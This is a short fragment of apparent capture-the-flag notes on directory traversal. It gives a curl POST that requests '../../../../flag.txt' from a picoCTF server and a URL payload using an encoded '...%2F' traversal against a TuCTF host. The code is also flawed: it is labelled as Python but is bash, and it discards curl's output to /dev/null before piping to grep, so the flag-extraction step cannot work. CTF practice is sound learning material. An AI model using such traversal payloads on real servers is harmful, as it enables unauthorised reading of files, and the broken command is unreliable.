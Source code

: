 ### Directory Traversal

---

```py
#!/bin/bash
curl -X POST "http://saturn.picoctf.net:52472/read.php" -d filename=../../../../flag.txt >/dev/null 2>&1 | grep -ho "picoCTF{.*}"
```

```py
https://vertical-traversal.tuctf.com/get/...%2Fflag.txt
```
